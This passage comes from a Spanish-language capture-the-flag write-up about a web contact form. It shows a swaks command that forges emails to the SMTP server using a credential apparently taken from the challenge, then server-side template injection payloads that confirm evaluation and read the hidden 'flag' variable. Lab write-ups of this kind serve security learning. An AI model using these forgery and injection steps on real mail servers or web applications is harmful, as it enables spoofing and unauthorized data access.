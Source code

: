 ![04]({% img 04.png %})

La respuesta entonces es sí, podemos enviar correos forjados!!

## -...- 2.2 ¿Ocurrirá otro proceso de sanitización? -...-

Recordemos cuáles son los carácteres eliminados por el formulario:

{% highlight python %}
@app.route("/", methods=["POST"])
@rate_limiter.limit("10/minute")
def handle_form():
    ...
    if all([name, email, message]):
        for c in "%{}()+":
            name = name.replace(c, "*")
            message = message.replace(c, "*")
    ...
{% endhighlight %}

En **/backend/process_email.py** nunca se sanitiza el contenido, porque se asume
que ya viene limpio del frontend. Podemos validar esto enviando un correo con
carácteres prohibidos.

{% asciiart ,0 %}
$ swaks --to "solicitud@dominioreal.xyz" \
        --from "webform@dominioreal.xyz" \
        --server dominioreal.xyz:25 \
        --auth-user postfixsender \
        --auth-pass FCHBg3jrkT6BohKmCtuhLkV9lqqndeNtp \
        --body '{"template":"%{}()+","email":"neo@sigint.in"}'
{% endasciiart %}

![05]({% img 05.png %})

Fantástico, efectivamente no ocurre otro proceso de sanitización.

## -...- 2.3 ¿Podré enviar una plantilla maliciosa explotando un SSTI? -...-

Si bien hay mil y un formas de validar esto, partamos enviando a ya saben quién:

{% asciiart ,0 %}
{% raw %}{"template":"{{7*7}}","email":"neo@sigint.in"}{% endraw %}
{% endasciiart %}

![06]({% img 06.png %})

Ahora es cosa de recordar las variables que se inyectan en el namespace del
template: codigo y flag. Veamos ambas:

{% asciiart ,0 %}
{% raw %}{"template":"{{codigo}} {{flag}}","email":"neo@sigint.in"}{% endraw %}
{% endasciiart %}

![07]({% img 07.png %})

Y tenemos la flag :)
{% asciiart center %}flag{4ut3nt1c4c1on_SMTP?}{% endasciiart %}
